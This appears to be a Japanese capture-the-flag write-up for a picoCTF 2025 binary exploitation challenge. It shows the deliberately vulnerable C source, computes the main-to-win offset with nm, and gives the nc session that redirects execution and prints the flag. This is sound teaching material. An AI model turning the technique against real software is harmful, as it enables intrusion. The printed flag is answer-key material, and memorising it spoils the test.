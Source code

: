 #Easy #Binary_Exploitation #picoCTF_2025 #browser_webshell_solvable

# Overview
![[Pasted image 20250528091452.png]]

# Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
mainアドレスが出力されて、入力したアドレスが実行される感じのプログラムですね。
パッと見でwin()のアドレスを入力すればよさそうです。

# How to Capture the flag
プログラムの実行ファイルが添付されているので解析してみましょう👀
```sh
root@idea:~/CLionProjects/ctf# file vuln
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped
```
```sh
root@idea:~/CLionProjects/ctf# checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   78 Symbols        No    01vuln

```
タイトル通りPIEが有効になっているようです。
低レイヤーの知見がなかったので調べることに🔍
> PIE(Position Independent Executable)はプログラムをロードするアドレスが固定ではない実行ファイルです。OSはロードアドレスをランダム化することで安全性を上げることができます。
> https://zenn.dev/tetsu_koba/articles/ecde4c6b5073bd

らしい🤨

どうやらかなり脆弱な機能ですが理解できました。
main()のアドレスが出力されていたのでwin()との差分を計算して入力すればいけそう。

```sh
root@idea:~/CLionProjects/ctf# nm vuln | grep main
                 U __libc_start_main@@GLIBC_2.2.5
000000000000133d T main

root@idea:~/CLionProjects/ctf# nm vuln | grep win
00000000000012a7 T win
```
`0x133D - 0x12A7 = 0x96` なので、main関数のアドレスが表示されたら、0x96 を引いたアドレスを指定すれば良さそうです。

```sh
root@idea:~/CLionProjects/ctf# nc rescued-float.picoctf.net 50268
Address of main: 0x64dba51c733d
Enter the address to jump to, ex => 0x12345: 0x64DBA51C72A7                                  
Your input: 64dba51c72a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}
```
Gotcha!
フラグを掴むことができました🚩